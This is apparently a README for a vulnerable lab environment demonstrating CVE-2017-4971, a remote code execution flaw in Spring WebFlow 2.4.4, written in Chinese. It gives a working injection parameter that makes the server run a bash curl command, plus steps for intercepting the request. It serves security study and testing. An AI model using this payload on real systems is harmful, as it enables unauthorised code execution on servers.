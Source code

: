 # Spring WebFlow 远程代码执行漏洞环境 (漏洞编号:CVE-2017-4971)
### 测试环境

本环境用spring-webflow源码的booking-mvc项目演示了Spring WebFlow框架中存在的一个代码执行的漏洞.

spring-webflow版本: 2.4.4

### 远程代码执行利用
浏览器打开服务,预订酒店,到下面页面

> ![](vuln/spring/2.png)

点击Confirm同时修改此时的HTTP包

> ![](vuln/spring/1.png)

加入的参数

> `_(new+java.lang.ProcessBuilder((new+java.lang.String[]{"/bin/bash","-c","curl+baidu.com+>+/tmp/baidu"}))).start()=1`

发送请求后,会在目标机器执行`curl baidu.com > /tmp/baidu`

> 登陆在线控制台查看命令是否执行成功


### 参考资料
[Spring WebFlow 远程代码执行漏洞分析(CVE-2017-4971)](https://threathunter.org/topic/593d562353ab369c55425a90)